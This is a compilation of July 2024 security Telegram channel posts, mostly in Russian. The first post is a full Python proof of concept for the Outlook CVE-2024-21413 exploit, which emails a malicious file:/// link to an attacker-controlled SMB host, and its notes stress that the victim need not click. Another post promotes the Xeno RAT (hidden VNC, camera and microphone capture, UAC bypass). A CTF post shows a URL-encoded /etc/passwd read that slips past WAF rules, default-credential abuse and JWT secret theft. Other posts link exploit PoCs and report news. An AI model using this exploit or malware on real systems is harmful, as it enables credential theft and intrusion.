


# proxy_bar
`2024-07-29`

<blockquote>
2024-21413 /outlook RCE
*
POC

import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

def send_email():
    &#35; Get user input for sender's email address and password
    sender_email &#61; input(&quot;Enter your Outlook email address: &quot;)
    sender_password &#61; input(&quot;Enter your Outlook email password: &quot;)

    &#35; Get user input for receiver's email address
    receiver_email &#61; input(&quot;Enter the recipient's email address: &quot;)

    &#35; Create a new message object
    msg &#61; MIMEMultipart()

    &#35; Add sender, receiver, and subject to the message
    msg['From'] &#61; sender_email
    msg['To'] &#61; receiver_email
    msg['Subject'] &#61; input(&quot;Enter email subject: &quot;)

    &#35; Ask user if they want to add a link attachment
    add_attachment &#61; input(&quot;Do you want to add a link attachment? (yes/no): &quot;).lower()
    if add_attachment &#61;&#61; 'yes':
        html_content &#61; &quot;&quot;&quot;\
        &lt;!DOCTYPE html&gt;
        &lt;html lang&#61;&quot;en&quot;&gt;
            &lt;body&gt;
                &lt;p&gt;&lt;a href&#61;&quot;file:///\\192.168.206.139/test/Doc.txt!xssvideo&quot;&gt;Salary docs&lt;/a&gt;&lt;/p&gt;
            &lt;/body&gt;
        &lt;/html&gt;&quot;&quot;&quot;
        msg.attach(MIMEText(html_content, 'html'))

    &#35; Connect to SMTP server and send email
    with smtplib.SMTP('smtp-mail.outlook.com', 587) as server:
        server.starttls()
        server.login(sender_email, sender_password)
        server.send_message(msg)
        print(&quot;Email sent successfully.&quot;)

if __name__ &#61;&#61; &quot;__main__&quot;:
    send_email()

Но есть пара НО:
1. В строке 27 вам необходимо указать путь к файлу на вашем сервере (линк на rtf например)
2. На линк жертве кликать не нужно, Office Protected View все сам сделает.
3. Было мнение что нужно находиться в LAN жертвы, но как бы есть пара минут пока port established

&#35;outглюк &#35;ntlm2
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# proxy_bar
`2024-07-26`

<blockquote>
Xeno Rat
*
Опенсорсный РАТник, написан на C&#35; и совместим с Windows 10, 11
*
Крыса умеет:
HVNC
Live Microphoneand camera
Socks5 Reverse Proxy
Regular Updates and Much More   (ну тут сомнительно)
Built Completely from Scratch    (скорее минус чем плюс)
UAC bypass (хммм)
Fun menu (праздник для души и мёд для ушей)
ну и куча всего

download крысу

&#35;RAT &#35;funny
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# sysadm_in_channel
`2024-07-23`

<blockquote>
/ EvilVideo: Telegram app for Android targeted by zero-day exploit sending malicious videos

https://www.eset.com/uk/about/newsroom/press-releases/set-research-discovers-evilvideo-telegram-app-for-android-targeted-by-zero-day-exploit-sending-malicious-videos/
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# cibsecurity
`2024-07-18`

<blockquote>
🕵️‍♂️ Void Banshee APT Exploits Microsoft Zero-Day in Spear-Phishing Attacks 🕵️‍♂️

The threat group used CVE202438112 and a &quot;zombie&quot; version of IE to spread Atlantida Stealer through purported PDF versions of reference books.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/threat-intelligence/void-banshee-apt-microsoft-zero-day-spear-phishing-attacks">
https://www.darkreading.com/threat-intelligence/void-banshee-apt-microsoft-zero-day-spear-phishing-attacks
</a>
<blockquote>
The threat group used CVE-2024-38112 and a &quot;zombie&quot; version of IE to spread Atlantida Stealer through purported PDF versions of reference books.
</blockquote>
</td></tr></table>

---

# proxy_bar
`2024-07-17`

<blockquote>
Havoc C2 Teamserver SSRF exploit 
*
Exploit

&#35;CC &#35;C2 &#35;havoc &#35;hackBYhack
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# proxy_bar
`2024-07-13`

<blockquote>
CVE-2024-34102
*
Adobe Commerce
Версии: 2.4.7, 2.4.6-p5, 2.4.5-p7, 2.4.4-p8
XXE vuln 
*
Exploit
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# cibsecurity
`2024-07-11`

<blockquote>
🕵️‍♂️ Attackers Have Been Leveraging Microsoft Zero-Day for 18 Months 🕵️‍♂️

Likely two separate threat actors are using the justpatched CVE202438112 in targeted, concurrent infostealer campaigns.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/application-security/attackers-have-been-leveraging-microsoft-zero-day-for-18-months">
https://www.darkreading.com/application-security/attackers-have-been-leveraging-microsoft-zero-day-for-18-months
</a>
<blockquote>
Likely two separate threat actors are using the just-patched CVE-2024-38112 in targeted, concurrent infostealer campaigns.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2024-07-10`

<blockquote>
Microsoft &#35;SharePoint Server 20219 — &#35;RCE

https://github.com/testanull/MS-SharePoint-July-Patch-RCE-PoC
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/testanull/MS-SharePoint-July-Patch-RCE-PoC">
https://github.com/testanull/MS-SharePoint-July-Patch-RCE-PoC
</a>
<blockquote>
Contribute to testanull/MS-SharePoint-July-Patch-RCE-PoC development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# RalfHackerChannel
`2024-07-10`

<blockquote>
🖼️ Microsoft SharePoint Server 20219 — RCE 

PoC for: 
— CVE-2024-38094
— CVE-2024-38024
— CVE-2024-38023

🔗 Source:
https://github.com/testanull/MS-SharePoint-July-Patch-RCE-PoC

&#35;sharepoint &#35;poc &#35;rce &#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# proxy_bar
`2024-07-09`

<blockquote>
HEVD Exploit Windows 10 22H2 
*
LPE exploit
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# RalfHackerChannel
`2024-07-06`

<blockquote>
————————————————————

CVE-2024-37081: VMware vCenter Server Multiple LPE

CVE-2024-22274: VMware vCenter Server RCE

&#35;exploit &#35;pentest &#35;redteam
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# ctfchat
`2024-07-03`

<blockquote>
⛳️Когда настоящий  Attack/Defense только начинается⛳️

Представим,что уже прошли first blood'ы 🩸
Вот первые сплойты переписаны из трафика ✍️ 
Почти все команды запатчились 🩹   
И тут начинается самое интересное ...

Казалось бы, ферма уже не приносит поинты с наших сплойтов и на этом все... 

Но это как раз тот момент, в котором надо копнуть чуть глубже...

Этот пост как раз и будет про классические bypass'ы неумелых патчей, или как можно нафармить халявные очки..😋

❗️Простые правила на WAF'е❗️
Некоторые команды, настраивающие WAF, могут забанить конкретную сигнатуру сплойта, например, 
file:///etc/passwd , и казалось бы, сплойт не проходит, но тут нам в помощь приходит классический URL encoding, и наш file:///etc/passwd  превращается в %66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64.
Изредка, но подобный енкодинг реально работает!

❗️Открытые порты❗️
Очень часто на A/D встречаются следующие строчки
 environment:
      - POSTGRES_USER&#61;postgres
      - POSTGRES_PASSWORD&#61;postgres
      - POSTGRES_DB&#61;postgres
    ports:
      - 5432:5432
По идее, правильно было бы вообще закрыть торчащий наружу порт, но реально бывали случаи, когда некоторые 'умельцы' просто меняли внешний порт с 5432 на 5433 и т.д., оставив те же самые креды.
Если заметили, что подобные сплойты перестали работать, то можно прогнать сервис через nmap.

❗️Секретные ключи в файлах ❗️
Реальный кейс с CTFCUP 2023, когда в сервисе был пробит LFI, благодаря которому  вытягивался secret_key, с помощью которого переподписывался JWT Token.
Казалось бы, можно переместить secret_key в переменные окружения и все, через LFI его не достать, но...
Большинство команд просто поменяли стандартное название файла, в котором хранился secret_key, думая, что название файла не узнать. 
И вот тут главная ошибка.. Название файла, содержащее,  secret_key все равно прописывается в main'е, в котором этот самый файл и импортируется. Таким образом, и была пробита большая часть команд, не задумавшихся о хорошем патче.

❗️Стандартные конфиги снифферов❗️
Для примера рассмотрим один из самых популярных снифферов Packmate
При его деплое нужно создать .env файл, в который могут загрузить стандартный конфиг с гитлаба https://gitlab.com/packmate/Packmate/-/blob/master/docs/SETUP.md
&#35; Локальный IP сервера, на который приходит игровой трафик
PACKMATE_LOCAL_IP&#61;ip
&#35; Имя пользователя для web-авторизации
PACKMATE_WEB_LOGIN&#61;SomeUser
&#35; Пароль для web-авторизации
PACKMATE_WEB_PASSWORD&#61;SomeSecurePassword
И тут опять классический вариант...
Сканим nmap'ом всю сетку и ищем порты, отличающиеся от игровых сервисов, находим Packmate, пробуем зайти под стандартными кредами, вдруг админ забыл их поменять.
В данном случае можно вытащить флаги вообще со всех сервисов команды.😋
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# defcon_news
`2024-07-02`

<blockquote>
regreSSHion: RCE Vulnerability in OpenSSH (CVE-2024-6387)
https://www.reddit.com/r/netsec/comments/1dtdhpo/regresshion_rce_vulnerability_in_openssh/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/1dtdhpo/regresshion_rce_vulnerability_in_openssh/?utm_source=ifttt">
https://www.reddit.com/r/netsec/comments/1dtdhpo/regresshion_rce_vulnerability_in_openssh/?utm_source=ifttt
</a>
<blockquote>
Explore this post and more from the netsec community
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-07-03`

<blockquote>
🕵️‍♂️ 'RegreSSHion' Bug Threatens Takeover of Millions of Linux Systems 🕵️‍♂️

The highseverity CVE20246387 in OpenSSH is a reintroduction of a 2006 flaw, and it allows unauthenticated RCE as root.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/cloud-security/regresshion-bug-threatens-takeover-of-millions-of-linux-systems">
https://www.darkreading.com/cloud-security/regresshion-bug-threatens-takeover-of-millions-of-linux-systems
</a>
<blockquote>
The high-severity CVE-2024-6387 in OpenSSH is a reintroduction of a 2006 flaw, and it allows unauthenticated RCE as root.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-07-01`

<blockquote>
🖋️ New OpenSSH Vulnerability Could Lead to RCE as Root on Linux Systems 🖋️

OpenSSH maintainers have released security updates to contain a critical security flaw that could result in unauthenticated remote code execution with root privileges in glibcbased Linux systems. The vulnerability, codenamed regreSSHion, has been assigned the CVE identifier CVE20246387. It resides in the OpenSSH server component, also known as sshd, which is designed to listen for connections.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

# cibsecurity
`2024-07-01`

<blockquote>
🕵️‍♂️ Apple CocoaPods Bugs Expose Millions of Apps to Code Injection 🕵️‍♂️

Critical dependency manager supply chain vulnerabilities have exposed millions and millions of devices to arbitrary malware for the better part of decade.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/cloud-security/apple-cocoapods-bugs-expose-apps-code-injection">
https://www.darkreading.com/cloud-security/apple-cocoapods-bugs-expose-apps-code-injection
</a>
<blockquote>
Critical dependency manager supply chain vulnerabilities have exposed millions and millions of devices to arbitrary malware for the better part of decade.
</blockquote>
</td></tr></table>

---

# RalfHackerChannel
`2024-07-01`

<blockquote>
🖼️ RegreSSHion — OpenSSH Unauthenticated RCE

The Qualys Threat Research Unit has discovered a Remote Unauthenticated Code Execution vulnerability in OpenSSH’s server (sshd) in glibc-based Linux systems. CVE assigned to this vulnerability is CVE-2024-6387.

The vulnerability, which is a signal handler race condition in OpenSSH’s server (sshd), allows unauthenticated remote code execution (RCE) as root on glibc-based Linux systems.

🔗 Research: 
https://blog.qualys.com/vulnerabilities-threat-research/2024/07/01/regresshion-remote-unauthenticated-code-execution-vulnerability-in-openssh-server

🔗 PoC:
https://github.com/7etsuo/cve-2024-6387-poc

&#35;openssh &#35;glibc &#35;rce &#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="None">
None
</a>
</td></tr></table>

---

